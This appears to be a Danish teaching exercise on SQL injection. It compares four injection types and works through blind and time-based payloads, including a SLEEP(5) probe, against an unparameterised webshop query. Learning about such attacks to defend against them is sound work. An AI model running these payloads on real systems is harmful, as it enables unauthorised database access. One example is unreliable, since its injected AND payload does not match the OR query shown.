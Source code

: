 
## Øvelse 2: Typer af SQL-Injektion
Forventning: Forstå forskellige typer af SQL-injektion og hvordan hver type kan udnyttes.

#### Øvelse 2.1: Forskellige SQL-injektionstyper
---
**Opret en tabel der sammenligner de fire typer SQL-injektion**

· Klassisk SQL-injektion

· Blind SQL-injektion

· Tidsbaseret SQL-injektion

· Fejlbaseret SQL-injektion

| SQL-injektionstype        | Beskrivelse                                                                       |
| ------------------------- | --------------------------------------------------------------------------------- |
| Klassisk SQL-injektion    | Manipulerer forespørgsler direkte gennem ondsindede input                         |
| Blind SQL-injektion       | Anvender sandt/falsk spørgsmål for at opdage databasedetaljer uden direkte output |
| Tidsbaseret SQL-injektion | Udnytter forsinkelser i databasen som respons for at finde sårbarheder            |
| Fejlbaseret SQL-injektion | Får databasen til at give fejlbeskeder med detaljer om dens struktur              |

---

#### Øvelse 2.2: Eksempler på Angreb
Givet forespørgslen:

```SQL
SELECT * FROM PRODUKT WHERE ProduktID = '$product_id';
```

**Hvordan kunne en blind SQL-injektion bruges til at finde ud af, om en bestemt produkt-id findes i webshop-databasen?**
	Kan afsløre data ved gradvist at teste for tilstedeværelsen af en specifik produkt-ID.
	
Sættes ind på ProdukctID's plads:
```SQL
' AND (SELECT COUNT(*) FROM Produkt WHERE ProductId = 1) > 0 --
```
Querien bliver til:
```SQL
SELECT * FROM PRODUKT 
WHERE ProduktID = '' 
OR (SELECT COUNT(*) FROM PRODUKT WHERE ProduktID = 1) > 0 --;
```


**Hvordan kan tidsbaseret SQL-injektion bruges til at afgøre, om en sårbarhed er til stede?**
	Kan teste sårbarheder ved at indsætte kommandoer, som forsinker serverens respons.

Sættes ind på ProdukctID's plads:
```SQL
' OR IF((SELECT COUNT(*) FROM PRODUKT WHERE ProduktID=1) > 0, SLEEP(5), 0) --
```
Querien bliver til:
```SQL
SELECT * FROM PRODUKT 
WHERE ProduktID = '' 
OR IF((SELECT COUNT(*) FROM PRODUKT WHERE ProduktID=1) > 0, SLEEP(5), 0) --';
```
#### Øvelse 2.3: Praktisk SQL-injektion
---
Du og din gruppe skal i denne øvelse se nærmere på, hvordan et konkret SQL injektionsangreb ser ud. Tag jer god tid til at forstå, hvad der sker – trin for trin.
